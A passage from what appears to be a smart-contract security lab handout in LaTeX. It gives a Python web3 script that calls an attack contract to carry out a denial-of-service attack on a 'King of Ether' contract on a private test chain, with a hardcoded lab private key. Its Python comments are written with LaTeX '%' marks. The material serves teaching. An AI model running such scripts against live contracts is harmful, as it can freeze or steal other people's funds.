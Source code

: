 \begin{lstlisting}[language=python, caption={Launching the attack (\texttt{launch\_attack.py})}]
#!/usr/bin/env python3

from web3 import Web3
import sys
import os

% Add the shared folder to sys.path
sys.path.append(os.path.abspath("../shared"))

import SEEDWeb3

% Connect to the Geth PoA node
web3 = SEEDWeb3.connect_to_geth_pos('http://10.151.0.71:8545')

% Attacker's private key and account
private_key = "6510652e04c9bcb471982164cf779fc0b624bb26bc3cfe5a8a54bddeba90d667"
attacker_account = web3.eth.account.from_key(private_key).address

% Load ABI and attack contract
abi_file = "../contract/KingOfEtherAttack.abi"
attack_addr = "put address here"

contract_abi = SEEDWeb3.getFileContent(abi_file)
contract = web3.eth.contract(address=attack_addr, abi=contract_abi)

% Amount to send (e.g., 1 Ether)
attack_value = web3.to_wei(1, 'ether')

% Send the attack transaction
print("Launching DoS attack...")
nonce = web3.eth.get_transaction_count(attacker_account)

transaction = contract.functions.attack().build_transaction({
    'from': attacker_account,
    'value': attack_value,
    'nonce': nonce,
    'gas': 500000,
    'gasPrice': web3.to_wei('10', 'gwei'),
    'chainId': 1337
})

signed_tx = web3.eth.account.sign_transaction(transaction, private_key)
tx_hash = web3.eth.send_raw_transaction(signed_tx.raw_transaction)

print("Transaction sent, waiting for block confirmation...")
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)

print(f"Attack completed. Transaction Hash: {tx_hash.hex()}")
print("Transaction Receipt:")
print(tx_receipt)
\end{lstlisting}

Update \texttt{attack\_addr} with the address from \texttt{contract\_address\_attack.txt}.

\section{Task 3: Demonstrating the DoS Attack}

